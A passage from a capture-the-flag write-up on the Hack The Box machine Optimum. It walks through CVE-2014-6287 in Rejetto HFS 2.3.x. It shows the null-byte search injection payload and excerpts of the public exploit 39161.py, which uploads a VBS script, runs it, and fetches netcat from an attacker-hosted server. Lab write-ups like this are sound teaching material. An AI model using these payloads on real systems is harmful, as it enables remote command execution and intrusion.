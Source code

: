 As you can see, "Rejetto HTTP File Server (HFS) 2.3.x" is vulnerable to Remote Code/Command Execution (RCE).

**Let's mirror the second one, `39161.py`:**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Optimum)-[2023.07.28|11:38:37(HKT)]
└> searchsploit -m 39161
  Exploit: Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)
      URL: https://www.exploit-db.com/exploits/39161
     Path: /usr/share/exploitdb/exploits/windows/remote/39161.py
    Codes: CVE-2014-6287, OSVDB-111386
 Verified: True
File Type: Python script, ASCII text executable, with very long lines (540)
Copied to: /home/siunam/ctf/htb/Machines/Optimum/39161.py
```

After that, we can read through all the exploit code.

**39161.py:**
```python
[...]
# Version: 2.3.x
# Tested on: Windows Server 2008 , Windows 8, Windows 7
# CVE : CVE-2014-6287
# Description: You can use HFS (HTTP File Server) to send and receive files.
#	       It's different from classic file sharing because it uses web technology to be more compatible with today's Internet.
#	       It also differs from classic web servers because it's very easy to use and runs "right out-of-the box". Access your remote files, over the network. It has been successfully tested with Wine under Linux.

#Usage : python Exploit.py <Target IP address> <Target Port Number>

#EDB Note: You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe).
#          You may need to run it multiple times for success!
[...]
```

Upon researching the CVE ID, we know that:

> HFS versions 2.3, 2.3a, and 2.3b are vulnerable to remote command execution due to a regular expression in `parserLib.pas` that fails to handle null bytes. Commands that follow a null byte in the search string are executed on the host system. As an example, the following search submitted to a vulnerable HFS instance launches calculator on the host Microsoft Windows system.
>  
> - `http://<vulnerable instance>/?search==%00{.exec|calc.}`
>  
> From [https://vk9-sec.com/hfs-code-execution-cve-2014-6287/](https://vk9-sec.com/hfs-code-execution-cve-2014-6287/)

That being said, we can execute arbitrary commands via `<null_byte>{.exec|<arbitrary_command>.}`.

**In the `39161.py` exploit Python script, it's executing arbitrary commands to upload a VBS script, and then execute it:**
```python
try:
	def script_create():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+save+".}")

	def execute_script():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe+".}")

	def nc_run():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe1+".}")

	ip_addr = "192.168.44.128" #local IP address
	local_port = "443" # Local Port number
```